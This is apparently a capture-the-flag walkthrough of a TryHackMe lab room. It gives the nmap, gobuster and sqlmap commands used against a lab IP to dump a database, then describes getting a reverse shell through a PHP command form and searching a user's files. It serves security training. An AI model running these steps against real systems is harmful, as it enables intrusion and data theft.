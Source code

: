 # Room
https://tryhackme.com/room/thecodcaper

# Task 1 - Deploy
Deploy VM

# Task 2 - Enumeration
Use nmap to grab info on the target host
```
nmap -A -T4 10.10.210.146 | tee nmap.txt
```

# Task 3 - Web Enumeration
Use gobuster to enumerate the web server
```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.210.146 -t 40 -x php,txt,html
```

# Task 4 - Web Exploitation
Use sqlmap to attack the web page you found above
```
sqlmap -u http://10.10.210.146/administrator.php --forms --dump
```

# Task 5 - Command Execution
Login to the web page using the credentials from the database dump you found above.  Start a listener and execute a reverse shell from within the PHP command form
```
https://weibell.github.io/reverse-shell-generator/
```

After a shell is launched, search for files pertaining to a specific user
```
find / -type f -user pingu 2>/dev/null
```